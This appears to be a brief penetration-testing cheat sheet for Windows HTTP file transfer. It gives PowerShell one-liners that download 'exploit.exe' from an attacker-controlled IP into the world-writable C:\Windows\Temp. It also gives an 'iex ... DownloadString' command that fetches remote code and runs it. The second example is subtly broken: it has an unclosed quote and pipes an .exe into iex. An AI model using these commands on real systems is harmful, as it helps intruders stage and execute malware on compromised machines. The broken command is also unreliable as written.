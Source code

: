 # Windows HTTP File Transfer

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

### When wget is not available/usable on a Windows machine use this command to pull files from an http server:
```
powershell -c "Invoke-WebRequest -Uri '[HTTP-SERVER-IP]/[FILE]' -OutFile '[FILE-PATH]'"
```
Example:
```
powershell -c "Invoke-WebRequest -Uri '10.10.100.254/exploit.exe' -OutFile 'C:\Windows\Temp\exploit.exe'"
```
*********************************************************************************
Note: C:\Windows\Temp is commonly world writable
*********************************************************************************
### Another useful command to achieve succesful http file transfer via powershell:
```
powershell iex (New-Object Net.WebClient).DownloadString('http://[HTTP-SERVER-IP]:[PORT]/[FILE])
```
Example:
```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.100.254:80/exploit.exe)
